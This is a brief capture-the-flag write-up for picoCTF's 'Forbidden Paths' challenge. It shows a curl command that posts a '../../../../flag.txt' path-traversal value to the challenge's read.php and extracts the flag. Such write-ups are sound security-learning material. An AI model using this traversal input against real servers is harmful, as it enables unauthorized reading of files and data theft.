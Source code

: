 # Forbidden Paths

We can't use absolute paths, but we can explore relative ones:

``` console
$ curl \
        --silent \
        --request POST \
        --data 'filename=../../../../flag.txt' \
        'http://saturn.picoctf.net:50561/read.php' \
        | grep --only-matching 'picoCTF{.*}'
```
